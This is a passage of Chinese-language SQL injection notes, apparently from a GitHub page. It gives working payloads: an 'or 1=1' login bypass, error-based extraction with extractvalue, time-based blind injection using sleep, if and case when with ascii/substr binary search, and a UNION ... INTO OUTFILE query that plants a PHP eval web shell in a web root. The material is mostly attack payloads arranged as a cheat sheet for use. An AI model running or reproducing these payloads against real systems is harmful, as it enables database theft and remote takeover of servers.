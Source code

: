 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

(3). 通过ExtractValue报错

	and extractvalue(1, payload)

	and (extractvalue(1, concat(0x5c,(select user()))))
输出字符有长度限制，最长32位。

payload即我们要输入的sql查询语句




3.time-based

当无论输入什么页面都回显一样，就要考虑时间盲注了，最常见的 ``` ' and sleep(5)```

一些网站会简单过滤  ```and && or || ```,这时要借助 ```if```

如果 if 被过滤，可以使用 ```case when(payload) then sleep(5) else sleep(2) end```

```substr``` 可以精确获取一个字符，进行猜测，但前提，这个字符要在你的爆破字典里。

例如我的字典，字母数字下划线: ```sqcwertyuioplkjhgfdazxvbnm_1234567890```

如果包含其他字符，就获取不到了，这时我的程序可能就停止了。

**创建一个含有特殊字符的数据库**  ```mysql> CREATE DATABASE `!@#$%^&*()_`;```

ascii 是判断当前字符的 ascii 值与数字比较，从而虽然不知道字符具体是什么，但可以不断逼近，可以用二分法，考虑效率的话这里就涉及到一些算法了，但是不需要那么复杂，慢慢爆破就好了。


	' and (if(ascii(substr(database(),1,1))>114,sleep(10),sleep(4))  --+ 
	if（）和sleep（）联合逐个猜解数据

	如果当前查询的当前数据库ascii(substr(database(),1,1))的第一个字符的ASCII码大于100，ture 沉睡10秒，FALSE 沉睡4秒
	
	利用二分法，115为fal，114TRUE，数据库第一个字符ASCII为115，即s
	
	同理修改substr(database(),2,1)可猜第二个字符，之后同理，当然在猜数据库字符前也可先猜数据库长度：length（database()）
	
	查表(查询出数据库的第一个数据表的首字母，最后查询出数据表的名字)
	' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100#

	```WAITFOR DELAY '0:0:4```表示延迟4秒，只是用与sql server

4.UNION query

	
	Dump into Outfile (高权限注入遇到secure_file_priv):
	into outfile / into dumpfile写文件:
	union select 1,"<?php @eval($_POST['chopper']);?>",3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\123456.php" --+
	
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

*******************************

	在mysql查看secure_file_priv
	show global variables like '%secure%';
```